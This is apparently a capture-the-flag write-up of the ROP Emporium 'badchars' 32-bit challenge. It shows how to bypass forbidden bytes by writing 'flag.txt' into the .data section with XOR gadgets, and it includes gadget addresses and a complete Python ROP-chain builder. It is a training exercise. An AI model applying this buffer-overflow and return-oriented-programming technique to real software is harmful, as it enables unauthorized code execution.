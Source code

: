 # badchars
The challenge is available [here](https://ropemporium.com/challenge/badchars.html).

## Black-Box Test
The current challenge is actually identical to the previous one, except for the fact that there are some characters we cannot use in the ROP chain. The instructions tell us that the program reveals what those characters are, so let's get started.

```
./badchars32
```
![](./0.png)

So, we are prohibited from using the characters `"x"`, `"g"`, `"a"`, and `"."`. Let's try to see what happens to them when they enter the stack by using all four as a return address (which will obviously crash the program, and when we check where it failed, we will expect to see these characters)

```
perl -e 'print "X"x44 . "xga."' | ./badchars32
```
```
sudo dmesg -k | tail -2
```
![](./1.png)

This means that each of the forbidden characters gets converted to `\xeb` before being written to the stack, and we will need to bypass this.

## In-depth research
This challenge is indeed almost identical to the previous one, so there's no need for an extensive presentation here. I will show how to find the components we need for the ROP chain and the idea I'm going to use.

Let's start by finding where `print_file` is located:
```
rabin2 -i badchars32
```
![](./2.png)

Again, we will use the `.data` section to store the string "flag.txt."

```
readelf -S badchars32 | grep -e '[.]data'
```
![](./3.png)

The more artistic part of this challenge was finding the suitable gadgets and thinking of an idea based on the conditions. Still, there are some general guidelines we already know: we need gadgets that will `pop` values into registers and gadgets that will `mov` values from registers to memory. There also needs to be a correspondence between the registers, especially for the one used to hold the address in the `mov-gadget`. Additionally, we were given a hint to consider using the `XOR` operation. After some research and thought, I found the following gadgets in the picture. Right after this, I will present the idea for how to use them.

Note: Before searching for the gadgets, you need to update Ropper with the forbidden bytes. This is done in Ropper using the command `badbytes`.

```
python3 ~/ropper/Ropper.py
```
```
file badchars32
```
```
badbytes 7867612e
```
```
search pop
```
```
search /1/ mov [%], %
```
```
search /1/ xor
```
![](./4.png)





## Solution
In the following table, the important addresses for constructing the ROP chain are summarized, along with a brief description of each.

| Name          | Type            | Address    | Description                                                       |
|---------------|-----------------|------------|-------------------------------------------------------------------|
| print_file    | Func            | 0x080483d0 | The entry address in the PLT table.                               |
| memory4string | Writable Memory | 0x0804a018 | .data segment addr will be where the string "flag.txt" is placed. |
| pop_bx        | Gadget          | 0x0804839d | pop ebx; ret;                                                     |
| pop_bp        | Gadget          | 0x080585bb | pop ebp; ret;                                                     |
| pop_si_di_bp  | Gadget          | 0x080485b9 | pop esi; pop edi; pop ebp; ret;                                   |
| mov2memory    | Gadget          | 0x0804854f | mov dword ptr [edi], esi; ret;                                    |
| xor2memory    | Gadget          | 0x08048547 | xor byte ptr [ebp], bl; ret;                                      |

And the next table describes the ROP chain itself:

| No | Chain Link                                                  | Note                                                                                        |
|----|-------------------------------------------------------------|---------------------------------------------------------------------------------------------|
| 1  | 44 garbage bytes                                            |                                                                                             |
| 2  | pop_bx, 0x01010101                                          | The lower byte will be used later for XOR operations.                                       |
| 3  | pop_si_di_bp, `"fl\x60f"`, memory4string, memory4string+2   | Each update of the EBP register sets it to the address of the next byte that will be XORed. |
| 4  | mov2memory                                                  | After this operation, the string will be `"fl\x60f"`.                                       |
| 5  | xor2memory                                                  | After this operation, the string will be `"flaf"`.                                          |
| 6  | pop_bp, memory4string+3                                     |                                                                                             |
| 7  | xor2memory                                                  | After this operation, the string will be `"flag"`.                                          |
| 8  | pop_si_di_bp, `"\x2ftyt"`, memory4string+4, memory4string+4 |                                                                                             |
| 9  | mov2memory                                                  | After this operation, the string will be `"flag\x2ftyt"`.                                   |
| 10 | xor2memory                                                  | After this operation, the string will be `"flag.tyt"`.                                      |
| 11 | pop_bp, memory4string+6                                     |                                                                                             |
| 12 | xor2memory                                                  | After this operation, the string will be `"flag.txt"`.                                      |
| 13 | print_file, "XXXX", memory4string                           |                                                                                             |

Where `"XXXX"` is the return address from the `print_file` function, which is not needed at all (it's there just to ensure that the parameter `memory4string` is in the right place on the stack).

All that remains is to build the Python script that creates the ROP chain, and we’re done!

```python
# chain_builder.py
import struct

def little_endian(number):
    """
    : The function accepts a number not
    : exceeding 4 bytes in size and returns it
    : as a string of hexadecimal characters in : little-endian format.
    """
    return struct.pack("<I", number)

# Parts of the chain
fill_buffer   = b"X"*44

print_file    = little_endian(0x080483d0)

memory4string = 0x0804a018

pop_bx        = little_endian(0x0804839d)
pop_bp        = little_endian(0x080485bb)
pop_si_di_bp  = little_endian(0x080485b9)
mov2memory    = little_endian(0x0804854f)
xor2memory    = little_endian(0x08048547) 

# Building the chain
ROP_Chain = fill_buffer
ROP_Chain += pop_bx + b"\x01\x01\x01\x01"
ROP_Chain += pop_si_di_bp + b"fl\x60f" + little_endian(memory4string) + little_endian(memory4string+2)
ROP_Chain += mov2memory
ROP_Chain += xor2memory
ROP_Chain += pop_bp + little_endian(memory4string+3)
ROP_Chain += xor2memory
ROP_Chain += pop_si_di_bp + b"\x2ftyt" + little_endian(memory4string+4) + little_endian(memory4string+4)
ROP_Chain += mov2memory
ROP_Chain += xor2memory
ROP_Chain += pop_bp + little_endian(memory4string+6)
ROP_Chain += xor2memory
ROP_Chain += print_file + b"XXXX" + little_endian(memory4string)

# Saving the chain in a binary file
with open("rop_chain", "wb") as f:
    f.write(ROP_Chain)
```
```
python3 chain_builder.py
```
```
cat rop_chain | ./badchars32
```
